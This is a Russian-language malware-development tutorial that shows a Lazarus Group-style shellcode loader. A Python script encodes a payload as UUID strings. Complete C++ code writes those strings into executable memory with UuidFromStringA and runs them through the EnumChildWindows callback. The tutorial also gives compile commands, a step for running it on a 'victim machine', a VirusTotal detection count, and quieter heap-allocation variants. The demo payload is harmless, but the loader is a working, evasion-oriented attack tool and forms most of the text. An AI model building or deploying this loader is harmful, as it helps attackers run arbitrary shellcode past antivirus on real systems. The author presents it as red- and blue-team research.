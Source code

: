\newpage
\subsection{35. Трюки разработки вредоносного ПО. Запуск шелл-кода в стиле Lazarus Group. Пример на C++.}

﷽

![injection](./images/63/2022-07-22_09-57.png){width="80%"}    

Эта статья является результатом моего собственного исследования ещё одного интересного приёма: запуск полезной нагрузки через `UuidFromStringA` и, например, `EnumChildWindows`.    

### UuidFromStringA

Эта функция преобразует строку в UUID:

```cpp
RPC_STATUS UuidFromStringA(
  RPC_CSTR StringUuid,
  UUID     *Uuid
);
```

Без использования стандартных функций, таких как `memcpy` или `WriteProcessMemory`, эту функцию можно использовать как для декодирования данных, так и для их записи в память.     

Техника выполнения шелл-кода включает следующие шаги:

- Выделение памяти с помощью `VirtualAlloc`    
- Использование `UuidFromStringA` для преобразования UUID-строк в их двоичный формат и сохранения в памяти    
- Использование `EnumChildWindows` (или `EnumDesktopsA`, либо другого подходящего метода) для выполнения ранее загруженной в память полезной нагрузки      

### Практический пример

Рассмотрим практический пример. Этот трюк довольно прост, он схож с [предыдущими](https://cocomelonc.github.io/tutorial/2022/06/27/malware-injection-20.html) приёмами, но с некоторыми изменениями, характерными для Lazarus Group.     

Сначала нам нужен скрипт для преобразования полезной нагрузки в допустимые строки UUID. Например, такой (`payload_uuid.py`):

```python
#!usr/bin/python3

from uuid import UUID
import argparse

parser = argparse.ArgumentParser()
parser.add_argument('-p','--payload', required = True, help = "payload: binary file")
args = vars(parser.parse_args())
pbin = args['payload']

with open(pbin, "rb") as f:
    # читаем 16 байтов из нашего входного бинарного файла
    chunk = f.read(16)
    while chunk:
        # если в блоке менее 16 байтов, дополняем разницу (x90)
        if len(chunk) < 16:
            padding = 16 - len(chunk)
            chunk = chunk + (b"\x90" * padding)
        print(UUID(bytes_le=chunk))
        chunk = f.read(16)
```        

Как обычно, я буду использовать полезную нагрузку с сообщением "meow-meow": `meow.bin`.

Запуск:

```bash
python3 payload_uuid.py -p meow.bin
```
![injection](./images/63/2022-07-22_10-46.png){width="80%"}    

Поскольку теперь у нас есть полезная нагрузка в формате UUID, мы можем создать код доказательства концепции (PoC) для тестирования следующего:

```cpp
#include <windows.h>
#include <rpc.h>
#include <iostream>

#pragma comment(lib, "Rpcrt4.lib")

const char* uuids[] = {
  "e48148fc-fff0-ffff-e8d0-000000415141",
  "56515250-3148-65d2-488b-52603e488b52",
  "8b483e18-2052-483e-8b72-503e480fb74a",
  "c9314d4a-3148-acc0-3c61-7c022c2041c1",
  "01410dc9-e2c1-52ed-4151-3e488b52203e",
  "483c428b-d001-8b3e-8088-0000004885c0",
  "01486f74-50d0-8b3e-4818-3e448b402049",
  "5ce3d001-ff48-3ec9-418b-34884801d64d",
  "3148c931-acc0-c141-c90d-4101c138e075",
  "034c3ef1-244c-4508-39d1-75d6583e448b",
  "01492440-66d0-413e-8b0c-483e448b401c",
  "3ed00149-8b41-8804-4801-d0415841585e",
  "58415a59-5941-5a41-4883-ec204152ffe0",
  "5a594158-483e-128b-e949-ffffff5d49c7",
  "000000c1-3e00-8d48-95fe-0000003e4c8d",
  "00010985-4800-c931-41ba-45835607ffd5",
  "41c93148-f0ba-a2b5-56ff-d54d656f772d",
  "776f656d-0021-5e3d-2e2e-5e3d00909090"
};

int main() {
  int elems = sizeof(uuids) / sizeof(uuids[0]);
  VOID* mem = VirtualAlloc(NULL, 0x100000, 0x00002000 | 0x00001000,
  PAGE_EXECUTE_READWRITE);
  DWORD_PTR hptr = (DWORD_PTR)mem;
  for (int i = 0; i < elems; i++) {
    // printf("[*] Allocating %d of %d uuids\n", i + 1, elems);
    // printf("%s\n", *(uuids+i));
    RPC_CSTR rcp_cstr = (RPC_CSTR)*(uuids+i);
    RPC_STATUS status = UuidFromStringA((RPC_CSTR)rcp_cstr, (UUID*)hptr);
    if (status != RPC_S_OK) {
      printf("[-] UUID convert error\n");
      CloseHandle(mem);
      return -1;
    }
     hptr += 16;
  }

  EnumChildWindows(NULL, (WNDENUMPROC)mem, NULL);
  // EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);
  CloseHandle(mem);
  return 0;
}
```

Обратите внимание на функцию `UuidFromStringA`. Как я уже писал ранее, вызов этого API с указателем на память вместо указателя на UUID приведёт к тому, что двоичное представление заданного UUID будет сохранено в памяти.     

Связывая множество API-запросов и передавая корректно сформированные UUID, можно загрузить необходимое содержимое (полезную нагрузку) в выбранную область памяти.   

А затем, в качестве указателя на функцию обратного вызова в `EnumChildWindows`, мы указываем этот участок памяти:   

```cpp
EnumChildWindows(NULL, (WNDENUMPROC)mem, NULL);
```

или другую функцию `EnumDesktopsA`:    

```cpp
EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);
```

### Демо

Давайте посмотрим, как всё работает на практике. Компилируем наш "вредонос":    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ \
-L/usr/x86_64-w64-mingw32/lib/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ -static-libgcc \
-fpermissive -lrpcrt4
```

![injection](./images/63/2022-07-22_10-56.png){width="80%"}    

Запускаем на машине жертвы:    

```powershell
.\hack.exe
```

![injection](./images/63/2022-07-22_10-58.png){width="80%"}    

Чтобы убедиться, что наша полезная нагрузка действительно запущена, можно немного изменить код:

```cpp
printf("[*] Hexdump: ");
for (int i = 0; i < elems*16; i++) {
  printf("%02X ", ((unsigned char*)mem)[i]);
}
```

Затем снова компилируем:   

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ \
-L/usr/x86_64-w64-mingw32/lib/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ -static-libgcc \
-fpermissive -lrpcrt4
```

![injection](./images/63/2022-07-22_11-07.png){width="80%"}    

и снова запускаем:   

```powershell
.\hack.exe
```

![injection](./images/63/2022-07-22_11-09.png){width="80%"}    

Как видно, всё работает идеально! :)    

Загружаем `hack.exe` на VirusTotal:    

![injection](./images/63/2022-07-22_14-59.png){width="80%"}    

**Итак, 6 из 68 антивирусных движков обнаруживают наш файл как вредоносный.**    

[https://www.virustotal.com/gui/file/003e45e65361b09fd8e372d29fbdecfb3462d9202ddf31bf386c728c9cebafa0/detection](https://www.virustotal.com/gui/file/003e45e65361b09fd8e372d29fbdecfb3462d9202ddf31bf386c728c9cebafa0/detection)    

Есть один нюанс. Lazarus Group использует функции `HeapCreate` и `HeapAlloc` вместо:

```cpp
HANDLE hc = HeapCreate(HEAP_CREATE_ENABLE_EXECUTE, 0, 0);
void* mem = HeapAlloc(hc, 0, 0x100000);
```

`HeapAlloc` — это часто используемый API-вызов для выделения памяти в куче.    
Этот API позволяет выделять указанные объемы памяти в куче, в отличие от блоков памяти, полученных с помощью `VirtualAlloc`.
Однако, согласно документации, `HeapAlloc` всё же может вызывать `VirtualAlloc`, если это необходимо.    

Также у него есть преимущество: этот API не выглядит таким подозрительным.    

Кроме того, Lazarus Group использует функцию `EnumSystemLocalesA` для выполнения полезной нагрузки.    

Я надеюсь, что этот пост повысит осведомлённость синих команд об этой интересной технике и добавит ещё одно оружие в арсенал красных команд.    

[nccgroup - RIFT: Analysing a Lazarus Shellcode Execution Method](https://research.nccgroup.com/2021/01/23/rift-analysing-a-lazarus-shellcode-execution-method/)      
[Lazarus Group](https://attack.mitre.org/groups/G0032/)    
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2022-07-21-malware-tricks-22)    
